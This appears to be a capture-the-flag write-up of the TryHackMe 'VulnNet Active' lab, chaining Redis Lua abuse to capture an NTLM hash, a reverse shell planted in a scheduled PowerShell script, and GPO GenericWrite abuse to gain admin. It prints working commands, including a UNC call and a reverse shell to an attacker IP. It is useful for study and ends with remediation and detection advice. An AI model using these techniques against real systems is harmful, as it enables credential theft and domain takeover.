

# TryHackMe - VulnNet Active

**OS:** Windows (Active Directory)

VulnNet Active is a Windows domain controller with Redis running unauthenticated. A Lua script executed through `redis-cli` triggers an outbound SMB connection to the attacking machine, which Responder captures as an NTLMv2 hash for `enterprise-security`. Cracking that hash gives SMB write access to a share containing a PowerShell script that root runs on a schedule. Replacing it drops a shell. BloodHound reveals `GenericWrite` on a GPO, which SharpGPOAbuse turns into local admin membership.

| Field | Value |
|---|---|
| Platform | TryHackMe |
| Target | `<target-ip> / domain controller` |
| Initial Access | Unauthenticated Redis abuse to capture NTLM material |
| Privilege Escalation | Active Directory ACL abuse through owned object rights |
| Final Access | Domain Administrator / full domain compromise |

---

## Attack Path

1. Recon identified the exposed services and separated useful attack surface from noise.
2. The first break was Unauthenticated Redis abuse to capture NTLM material.
3. Post-exploitation enumeration exposed Active Directory ACL abuse through owned object rights.
4. The final privileged context was reached and the required proof was captured.

---

## Recon

### Port Scan and Redis Access

The open port profile identified a Windows domain controller. Redis was accessible without authentication on port 6379.

### NTLM Hash Capture via Redis Lua

Redis's `eval` command can execute Lua scripts, and Lua's `dofile()` function attempts to open a file by path - including UNC paths. Pointing it at a non-existent share on the attacking machine caused the target to initiate an SMB authentication:

```
<target-ip>:6379> eval "dofile('//10.13.2.223/pentest')" 0
(error) ERR ... cannot open //10.13.2.223/pentest: Permission denied
```

With Responder listening, the outbound SMB authentication was captured:

```
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:...
```

John cracked the NTLMv2 hash against rockyou, recovering plaintext credentials for `enterprise-security`.

---

## Initial Access

### Scheduled Task via SMB Write

With valid credentials, SMB enumeration found an `Enterprise-Share` with a writable PowerShell script: `PurgeIrrelevantData_1826.ps1`. The naming and write permissions suggested a scheduled task.

```
smbclient -U 'enterprise-security' //<target-ip>/Enterprise-Share
smb: \> ls
  PurgeIrrelevantData_1826.ps1
```

The script was overwritten with Nishang's `Invoke-PowerShellTcp` payload (`Invoke-PowerShellTCP -Reverse -IPAddress 10.13.2.223 -Port 80` appended). After a few minutes the scheduled task fired and a PowerShell session was received as `enterprise-security`.

```
connect to [10.13.2.223] from (UNKNOWN) [<target-ip>] 49867
Windows PowerShell running as user enterprise-security on VULNNET-BC3TCK1
PS C:\Users\enterprise-security\Downloads>
```

---

## Privilege Escalation

### GPO GenericWrite via BloodHound and SharpGPOAbuse

Running SharpHound and importing the data into BloodHound showed `enterprise-security` had `GenericWrite` over the `SECURITY-POL-VN` Group Policy Object. `GenericWrite` on a GPO allows adding arbitrary scheduled tasks or computer startup scripts that execute as SYSTEM when the policy applies.



SharpGPOAbuse added `enterprise-security` to the local administrators group via a malicious immediate computer task in the GPO:

```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" \
  --Author vulnnet\administrator --Command "cmd.exe" \
  --Arguments "/c net localgroup administrators enterprise-security /add" \
  --GPOName "SECURITY-POL-VN"
[+] Done!
```

After `gpupdate` applied the policy, `impacket-psexec` connected as `enterprise-security` with local admin rights:

```
impacket-psexec enterprise-security:'sand_0873959498'@<target-ip>
C:\Windows\system32> type C:\Users\Administrator\Desktop\System.txt
```

---

## Summary

VulnNet Active demonstrates a Redis SSRF-to-NTLM-capture technique that's applicable anywhere a server-side service can be made to initiate outbound SMB. The GPO `GenericWrite` abuse via SharpGPOAbuse is a realistic AD misconfiguration - GPO write rights are frequently granted without understanding their scope.

**Key takeaway:** `GenericWrite` on a GPO is effectively a path to SYSTEM on every computer in that GPO's scope - any computer startup script or scheduled task added via the GPO runs with machine account privileges.

---

## Root Cause

The demonstrated path worked because over-permissive AD object ACLs, unauthenticated management/service exposure gave the attacker a bridge from reconnaissance to execution. The important pattern is the chain: Unauthenticated Redis abuse to capture NTLM material created a foothold, and Active Directory ACL abuse through owned object rights converted that foothold into Domain Administrator / full domain compromise.

## Impact

Successful exploitation reached Domain Administrator / full domain compromise. That level of access allows command execution, proof or sensitive-file access, credential collection, and a realistic path to additional systems if the same credentials, services, or trust relationships exist elsewhere.

## Remediation

- Remove or harden the specific exposure used for initial access: Unauthenticated Redis abuse to capture NTLM material.
- Fix the privilege boundary that enabled escalation: Active Directory ACL abuse through owned object rights.
- Audit AD privileges with BloodHound/PowerView and remove nonessential tier-0 rights.
- Rotate credentials observed or replayed during the chain and search for reuse on adjacent systems.
- Validate the fix by safely replaying the enumeration steps that originally exposed the weakness.

## Detection Opportunities

- Alert on exploit attempts or suspicious access patterns against the service that enabled initial access.
- Correlate successful authentication, new process creation, and privilege-boundary events after enumeration activity.
- Monitor for the specific escalation signal: Active Directory ACL abuse through owned object rights.
- Collect and review Kerberos, LDAP, certificate, and directory-replication events for nonstandard principals.

## Lessons Learned

- The winning path was not just a vulnerable service; it was the connection between Unauthenticated Redis abuse to capture NTLM material and Active Directory ACL abuse through owned object rights.
- Preserve the observations that explain why each pivot made sense, not only the commands that worked.
- Write remediation from the root cause of each step so the report reads like an operator narrative and a defender action plan.
